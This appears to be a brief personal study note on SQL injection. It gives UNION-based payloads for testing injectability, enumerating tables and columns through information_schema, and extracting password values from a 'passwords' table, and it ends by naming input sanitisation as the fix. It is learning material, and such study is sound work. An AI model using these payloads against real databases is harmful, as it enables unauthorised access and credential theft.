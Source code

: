 # SQL injection
use everything after (including) "a' UNION"
* test if injection is possible
    ```sql
    SELECT ?, ? FROM ? WHERE ? like '%a%' UNION (SELECT 1, 2 FROM dual); -- ';
    ```

* get all tables from database
    ```sql
    SELECT ?, ? FROM ? WHERE ? like '%a%' UNION (SELECT table_name, table_schema FROM information_schema.tables); -- ';
    ```
* get column names from specific table password, use 2 as placeholde to fill in coumn to union correctly
    ```sql
    SELECT ?, ? FROM ? WHERE ? like '%a%' UNION (SELECT column_name, 2 FROM information_schema.columns WHERE table_name = 'passwords'); -- ';
    ```

* get passwords from password table
    ```sql
    SELECT ?, ? FROM ? WHERE ? like '%a%' UNION (SELECT password, 2 FROM passwords); -- ';
    ```

* information_schema table holds information of all tables


**solution: sanitize user input**

todo lean second order injection